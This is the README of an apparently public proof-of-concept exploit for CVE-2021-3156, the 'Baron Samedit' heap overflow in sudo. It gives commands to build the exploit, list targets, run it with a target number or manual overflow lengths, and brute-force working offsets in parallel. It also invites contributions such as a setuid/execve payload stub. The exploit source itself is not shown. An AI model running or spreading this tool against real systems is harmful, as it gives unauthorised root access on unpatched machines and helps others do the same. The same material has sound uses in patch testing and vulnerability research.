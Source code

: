 # CVE-2021-3156 PoC

## Introduction

This is an exploit for the `CVE-2021-3156` sudo vulnerability (dubbed [Baron Samedit](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt) by Qualys).

## Usage

build:
```
$ make
```


list targets:
```
$ ./sudo-hax-me-a-sandwich
```

run:
```
$ ./sudo-hax-me-a-sandwich <target_number>
```

manual mode:
```
$ ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

## Bruteforce target finding (experimental)

Make sure you have [GNU parallel](https://ftpmirror.gnu.org/parallel/parallel-latest.tar.bz2) installed.

```
$ make brute
$ ./brute.sh <smash_start> <smash_end> <null_start> <null_end> <lc_start> <lc_end>
```

some defaults to try:
```
$ ./brute.sh 90 120 50 70 150 300
```

Will eat up all available cores. Don't try to netflix & brute.

## Contributing

Send (sensible) PR's, I might merge.

Some ideas:
* More targets
* Target finding
* Other exploitation strategies
* More self contained functionality:
    * Embed shared library hax.c (Make it small please, ELF golf + asm setuid/execve stub)
    * Add mkdir logic to hax.c
* Directory/shared library cleanup

## Disclaimer
I am not the author of this exploit.If there is any infringement, please contact me.
